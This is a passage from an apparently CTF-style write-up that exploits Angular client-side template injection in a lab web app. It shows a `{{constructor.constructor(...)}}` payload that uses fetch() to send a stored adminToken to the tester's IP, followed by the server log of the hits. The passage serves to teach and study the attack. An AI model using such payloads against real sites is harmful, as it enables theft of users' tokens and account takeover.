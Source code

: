 To submit this form, I must know the `id` for the user to change. I did some playing with the `newusername` field, but I wasn’t able to change my username.

#### CSTI POC

I’ll try a template injection payload like `{{ 7*7 }}` in the only two editable fields:

![image-20220727150531292](https://0xdfimages.gitlab.io/img/image-20220727150531292.png)

Both are vulnerable.

Looking in Local Storage, it’s the unexecuted data still:

![image-20220727150605298](https://0xdfimages.gitlab.io/img/image-20220727150605298.png)

This is very similar to a server-side template injection (SSTI), except that the injection is happening client-side, in the JavaScript on the local user’s browser. So poisoning my own user isn’t very useful, but if I can get this kind of payload into the database for another user, I can potentially execute JavaScript on their browser.

#### Exfil Admin Token

Since it seems likely that having the `adminToken` of a real admin is going to be useful, I’ll use this CSTI to collect it. HackTricks has a [nice page on Angular CSTI](https://book.hacktricks.xyz/pentesting-web/client-side-template-injection-csti#angularjs) which provides this payload:

```

{{constructor.constructor('alert(1)')()}}

```

I’ll update my first name and on clicking Save:

![image-20220727151549853](https://0xdfimages.gitlab.io/img/image-20220727151549853.png)

To leak the value from Local Storage, I’ll make sure mine exists (it gets cleared each time my account is nuked), and try this payload:

```

{{constructor.constructor('fetch("http://10.10.14.6/" + localStorage.getItem("adminToken"))')()}}

```

On submitting this as my name, there’s a request at my Python webserver:

```
10.10.14.6 - - [27/Jul/2022 18:01:55] code 404, message File not found
10.10.14.6 - - [27/Jul/2022 18:01:55] "GET /fakeAdminToken HTTP/1.1" 404 -
10.10.14.6 - - [27/Jul/2022 18:01:55] code 404, message File not found
10.10.14.6 - - [27/Jul/2022 18:01:55] "GET /fakeAdminToken HTTP/1.1" 404 -

```

Looking in the Dev Tools console, it seems the request to my VM was blocked twice, and yet, there are hits:
